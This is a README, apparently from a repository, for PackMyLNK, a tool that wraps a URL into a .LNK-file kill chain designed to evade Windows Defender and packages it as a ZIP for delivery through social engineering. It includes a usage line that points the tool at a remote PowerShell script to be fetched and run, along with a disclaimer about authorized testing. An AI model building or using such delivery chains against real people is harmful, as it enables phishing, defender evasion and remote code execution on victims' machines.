 # PackMyLNK

This tool takes a URL as input and embeds it into a classic kill chain using .LNK files. I designed it with the specific intent of avoiding detection by Windows Defender. It generates a final ZIP file, ready to be delivered to the target using Social Engineering techniques.

## Usage
`.\PackMyLNK.exe -Url http://example.com/RunMe.ps1`

___

#### DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage.
